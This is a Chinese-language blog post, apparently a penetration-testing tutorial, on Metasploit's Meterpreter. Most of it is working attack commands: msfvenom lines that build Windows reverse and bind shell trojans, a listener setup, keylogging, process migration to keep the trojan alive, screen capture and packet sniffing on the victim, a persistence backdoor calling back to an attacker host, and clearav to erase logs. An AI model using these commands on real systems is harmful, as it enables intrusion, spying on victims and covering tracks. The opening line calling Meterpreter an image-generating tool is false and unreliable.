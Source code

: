 ```yaml
---
layout:     post
title:      Meterpreter-基础命令
subtitle:
date:       2020-5-9
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/background/post-bg-Meterpreter.jpg
catalog: true
tags:
    - 工具
    - 渗透测试
---
```


# 一、基础

Meterpreter是个用来产生各种图像的命令。适用于广大图形爱好者。

![YejJ4s.png](https://s1.ax1x.com/2020/05/07/YejJ4s.png)


help 命令查看帮助
![YmeEyF.png](https://s1.ax1x.com/2020/05/07/YmeEyF.png)

核心命令如下

命令 | 含义
-|-
banner |  显示一个metasploit横幅
cd |  更改当前的工作目录
color |  切换颜色
connect |  连接与主机通信
exit  | 退出控制台
get  | 获取特定于上下文的变量的值
getg |  获取全局变量的值
grep | grep另一个命令的输出
help  | 帮助菜单
history |   显示命令历史
irb  | 进入irb脚本模式
load  | 加载一个框架插件
quit  | 退出控制台
route  | 通过会话路由流量
save |  保存活动的数据存储
sessions  |  转储会话列表并显示有关会话的信息
set |  将特定于上下文的变量设置为一个值
setg |  将全局变量设置为一个值
sleep |  在指定的秒数内不做任何事情
spool  | 将控制台输出写入文件以及屏幕
threads |  线程查看和操作后台线程
unload |  卸载框架插件
unset |  取消设置一个或多个特定于上下文的变量
unsetg |  取消设置一个或多个全局变量
version |  显示框架和控制台库版本号

在控制台内是可以直接执行命令的
[![YmmoCt.png](https://s1.ax1x.com/2020/05/07/YmmoCt.png)](https://imgchr.com/i/YmmoCt)

## Meterpreter中常用的反弹类型
**1.reverse_tcp**
这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

**2.reverse_http**
基于http方式的反向连接，在网速慢的情况下不稳定。

**3.reverse_https**
基于https方式的反向连接，在网速慢的情况下不稳定， https如果反弹没有收到数据，可以将监听端口换成443试试

**4.bind_tcp**
这是一个基于TCP的正向连接shell，因为在内网跨网段时无法连接到attack的机器，所以在内网中经常会使用，不需要设置LHOST。
# 二、常见用法

## (1) windows

### ① msfvenom 生成木马
**查找payload**
```bash
msfvenom -l  payload | grep window
```
**生成木马**

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp  lport=60005 -f exe -o test.exe //正向

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.101 lport=4444 -f exe -o shell.exe //反向
```
**配置Meterpreter**
```bash
use multi/handler
```
![YmtcFK.png](https://s1.ax1x.com/2020/05/07/YmtcFK.png)
![YmtgJO.png](https://s1.ax1x.com/2020/05/07/YmtgJO.png)

**会话管理**
background #把meterpreter后台挂起
bglist #提供所有正在运行的后台脚本的列表
sessions #
session -i number # 与第number个交互
session -k number # kill 第number
![YnTpPP.png](https://s1.ax1x.com/2020/05/08/YnTpPP.png)

**文件上传**
[![YmaNJf.png](https://s1.ax1x.com/2020/05/07/YmaNJf.png)](https://imgchr.com/i/YmaNJf)
[![YmaUW8.png](https://s1.ax1x.com/2020/05/07/YmaUW8.png)](https://imgchr.com/i/YmaUW8)

**执行命令**
"execute"命令为目标主机上执行一个命令，其中"execute -h"显示帮助信息。-f为执行要运行的命令, -H后台执行 -i交互 -d 在目标主机执行时显示的进程名称（用以伪装）-m 直接从内存中执行
 "-o wce.txt"是wce.exe的运行参数
![YmdGX4.png](https://s1.ax1x.com/2020/05/07/YmdGX4.png)

**文件查找**
![Ymd8cF.png](https://s1.ax1x.com/2020/05/07/Ymd8cF.png)

**修改文件** edit filename
**查看文件** cat filename
**目录** cd / dir

**端口转发**
当服务在内网，无法直接访问可以端口转发到本机
这里将目标的 80 转发到了 8888
```shell
portfwd add  -l 8888 -p 80 -r 192.168.1.107
```
![Yn5sZn.png](https://s1.ax1x.com/2020/05/08/Yn5sZn.png)
![Yn5yaq.png](https://s1.ax1x.com/2020/05/08/Yn5yaq.png)

**键盘监控**
keyscan_start # 开始捕获
keyscan_dump  # 打印
keyscan_stop  # 停止
![Ynb98x.png](https://s1.ax1x.com/2020/05/08/Ynb98x.png)

**进程迁移**
防止木马挂掉，可以将进程迁移到其他合法进程上如explorer.exe是Windows程序管理器或者文件资源管理器
1. ps |grep explorer.exe 通过ps找到进程PID
2. migrate  **
![YuDjoQ.png](https://s1.ax1x.com/2020/05/08/YuDjoQ.png)


**屏幕捕获**
use espia
screengrab 捕获
![Yu85PU.png](https://s1.ax1x.com/2020/05/08/Yu85PU.png)

**屏幕监控**
```shell
enumdesktops  #查看可用的桌面
getdesktop    #获取当前meterpreter 关联的桌面
setdesktop   #设置meterpreter关联的桌面  -h查看帮助
screenshot  #截屏
use espia  #或者使用espia模块截屏  然后输入screengrab
run vnc  #使用vnc远程桌面连接
```
![YQZWHU.png](https://s1.ax1x.com/2020/05/09/YQZWHU.png)

**流量监控**
```shell
use sniffer
sniffer_interfaces   #查看网卡
sniffer_start 2   #选择网卡 开始抓包
sniffer_stats 2   #查看状态
sniffer_dump 2 /tmp/lltest.pcap  #导出pcap数据包
sniffer_stop 2   #停止抓包
```
![YQEgGn.png](https://s1.ax1x.com/2020/05/09/YQEgGn.png)

**持久后门**
```bash
run persistence -X -i 5 -p 7777 -r 192.168.1.100
# -i 5 每五秒发送包 -p kali 接收端口 -r kail主机
reboot
exit

set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 7777
exploit
```
![YKW2DA.png](https://s1.ax1x.com/2020/05/08/YKW2DA.png)

**日志清除**
clearav


**待更新**
# 参考

[Metasploit 使用MSFconsole接口](https://www.fujieace.com/metasploit/msfconsole.html)

[后渗透之meterpreter使用攻略](https://xz.aliyun.com/t/2536#toc-9)

[]()

[]()
